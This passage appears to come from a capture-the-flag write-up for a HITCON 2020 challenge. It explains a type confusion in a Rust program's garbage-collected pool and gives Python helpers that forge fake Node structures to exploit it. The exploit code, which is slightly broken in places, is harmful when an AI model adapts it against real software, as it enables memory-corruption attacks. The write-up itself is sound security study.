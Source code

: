 ```rust
        return (NULL, 1);
    }
    ...
}

```
(Here we skip over a lot of details which are not relevant here.)
Basically the `write_bin` function always add to the pool even if the encoding fails.
The garbage collector considers a cell free if its `value >> 3 == 0` and this olds for NULL. Therefore we have a type confusion where we can have the same memory referenced as a text and a node.

![](/hitcon_2020_dual.png)

Now we can study the [Rust documentation](https://doc.rust-lang.org/reference/type-layout.html) to figure out how to forge the `Node` data structure.
But [Rust does not guarantees that the fields order is respected](https://doc.rust-lang.org/reference/type-layout.html#the-default-representation) on structs without `#[repr(C)]`, so the fields order
might change between different compiler versions.
```python
def craft_node(_id, **kwargs):
    """Helper function to get the bytes of an arbitrary node"""
    s  = p64(_id)
    s += p64(kwargs.get("this_idx", 0x4141414141414141)
    s += p64(kwargs.get("edges", 0)
    s += p64(kwargs.get("last_edge", 0)
    s += p64(kwargs.get("edges_end", 0)
    s += p64(kwargs.get("text_len", 0x4141414141414141)
    s += p64(kwargs.get("text_idx", 0x4141414141414141)
    s += p64(kwargs.get("stamp",0x4141414141414141 )
    return s
    
def forge_node(**kwargs):
    # write an empty b64 to cause the bug in the node 0
    write_bin(0, "")
    # Create a new node which will be confused
    # with the text of the node 0
    node_id = create(0)
    # Create the bytes for the arbitrary node
    crafted = craft(node_id, **kwargs)
```